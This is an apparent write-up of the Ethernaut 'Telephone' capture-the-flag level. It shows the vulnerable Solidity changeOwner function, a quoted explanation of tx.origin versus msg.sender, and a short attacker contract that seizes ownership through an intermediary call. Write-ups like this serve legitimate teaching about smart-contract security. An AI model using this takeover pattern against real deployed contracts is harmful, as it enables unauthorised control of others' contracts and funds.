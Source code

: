 # Telephone

First one that I did on my own :D

```solidity
   function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

From StackExchange : 

> With msg.sender the owner can be a contract.

> With tx.origin the owner can never be a contract.

> In a simple call chain A->B->C->D, inside D msg.sender will be C, and tx.origin will be A.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone{
  function changeOwner(address _owner) external;
}

contract hackedTelephone {

  Telephone originalTelephone;
  address myAddr = 0x36b19c3573beE32B810076d195FC15baFC72a562;

  constructor(address _addr){
    originalTelephone = Telephone(_addr);
  }

  function hackTelephone() public {
    originalTelephone.changeOwner(myAddr);
  }
}
```

We will just call changeOwner from Remix IDE. Since it is sent from Remix, tx.origin will be our address. Remix addr -> My addr -> contract method will give us ownership.